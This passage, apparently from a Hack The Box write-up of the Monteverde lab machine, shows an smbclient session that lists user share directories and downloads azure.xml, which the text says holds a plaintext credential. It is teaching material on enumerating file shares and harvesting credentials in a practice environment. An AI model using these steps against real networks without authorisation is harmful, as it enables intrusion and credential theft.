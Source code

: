 Looks like we have read access to quite a few of them.

### Exploitation

Going into mhope's directory in the users$ share, we find a file called azure.xml.

```text
┌──(ryan㉿kali)-[~/HTB/Monteverde]
└─$ smbclient \\\\10.10.10.172\\users$ -U SABatchJobs               
Password for [WORKGROUP\SABatchJobs]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jan  3 07:12:48 2020
  ..                                  D        0  Fri Jan  3 07:12:48 2020
  dgalanos                            D        0  Fri Jan  3 07:12:30 2020
  mhope                               D        0  Fri Jan  3 07:41:18 2020
  roleary                             D        0  Fri Jan  3 07:10:30 2020
  smorgan                             D        0  Fri Jan  3 07:10:24 2020

		31999 blocks of size 4096. 28979 blocks available
smb: \> cd mhope
smb: \mhope\> ls
  .                                   D        0  Fri Jan  3 07:41:18 2020
  ..                                  D        0  Fri Jan  3 07:41:18 2020
  azure.xml                          AR     1212  Fri Jan  3 07:40:23 2020

		31999 blocks of size 4096. 28979 blocks available
smb: \mhope\> get azure.xml 
getting file \mhope\azure.xml of size 1212 as azure.xml (4.2 KiloBytes/sec) (average 4.2 KiloBytes/sec)
```

And inside the file we find a plaintext credential:

![pw.png](../assets/monteverde_assets/pw.png)
